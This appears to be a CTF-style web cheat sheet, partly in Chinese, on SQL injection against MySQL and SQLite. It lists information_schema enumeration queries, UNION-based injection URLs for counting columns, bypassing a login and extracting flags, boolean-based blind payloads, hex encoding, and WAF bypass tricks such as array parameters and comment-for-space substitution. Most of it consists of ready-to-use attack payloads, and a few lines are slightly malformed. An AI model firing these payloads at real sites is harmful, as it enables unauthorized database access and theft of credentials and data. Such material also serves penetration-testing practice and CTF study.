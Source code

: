 # Web Cheat Sheet
###### tags: `Cheet Sheet`
[TOC]
## SQL injection (MySQL)
### Get Database name
- SELECT schema_name FROM information_schema.schemata;
- SELECT distinct(table_schema) FROM information_schema.tables;
- SELECT distinct(table_schema) FROM information_schema.columns;
- SELECT name FROM information_schema.innodb_tables;
- SELECT name FROM information_schema.innodb_tablestats;
### Get Table name
- SELECT table_name FROM information_schema.tables;
- SELECT table_name FROM mysql.innodb_table_stats;
- SELECT table_id,name FROM information_schema.innodb_columns;
- SELECT name FROM information_schema.innodb_tables;
- SELECT name FROM information_schema.innodb_tablestats;
### Get Current Database's Tables
- SELECT table_name FROM information_schema.tables WHERE table_schema = database();
### Get Column name
- SELECT column_name FROM information_schema.columns WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
- SELECT column_name FROM information_schema.key_column_usage WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
- SELECT column_name FROM information_schema.statistics WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
### Union Base
- 有無 syntax error，確認 column 數
    - http://example.com/index.php?id=1 Union Select 1 #
    - http://example.com/index.php?id=1 Union Select 1,2 #
    - http://example.com/index.php?id=1 Union Select 1,2,3 #
- 找 database name，可替換任意 Get Database 語法
    - http://example.com/index.php?id=1 Union Select 1, 2, database() #
    - http://example.com/index.php?id=1 Union Select 1, 2, (SELECT table_name FROM information_schema.tables limit 0,1) #
- 回傳自訂 select 結果
    - http://example.com/login.php?username=admin&password=1111' union select 'admin', 'admin' #
- Union 結合 limit 偏移取 data
    - http://example.com/index.php?id=1 Union Select 1,2,(SELECT flag from flag limit 0,1) #
    - - http://example.com/index.php?id=1 Union Select 1,2,(SELECT flag from flag limit 1,1) #
### Boolean Base
- 判斷長度
    - `' and (length((SELECT username FROM users limit 0,1)))>10`
- 判斷字元
    - `' and (ascii(substr((SELECT username FROM users WHERE limit 0,1),0,1)))>97` (MySQL)
    - `' and (unicode(substr((SELECT username FROM users WHERE limit 0,1),0,1)))>97` (SQLite)
### Replacement
- 字串比對可以轉 16 進位
    - `SELECT * FROM users WHERE username="test"` =  `SELECT * FROM users WHERE username=0x74657374`
### By pass WAF
- request 參數傳陣列(ex: username[]='123)
    - `select username from users where username = ''123'`
- By pass space(`/**/`)
    - `\'/**/or/**/2=2/**/limit/**/1,1/**/#`
